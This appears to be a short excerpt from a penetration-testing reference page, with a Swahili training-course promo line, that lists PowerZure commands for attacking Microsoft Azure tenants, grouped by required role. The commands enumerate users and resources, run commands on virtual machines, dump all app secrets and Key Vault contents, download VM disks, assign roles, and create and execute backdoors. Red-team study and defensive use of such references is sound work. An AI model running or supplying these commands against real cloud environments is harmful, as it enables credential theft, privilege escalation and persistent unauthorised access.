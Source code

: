 ```powershell
Connect-AzAccount
ipmo C:\Path\To\Powerzure.psd1
Get-AzureTarget

# Reader
$ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

# Contributor
$ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
$ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
$ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
$ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

# Owner
$ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest

# Administrator
$ Create-Backdoor, Execute-Backdoor
```
<details><summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary></details>
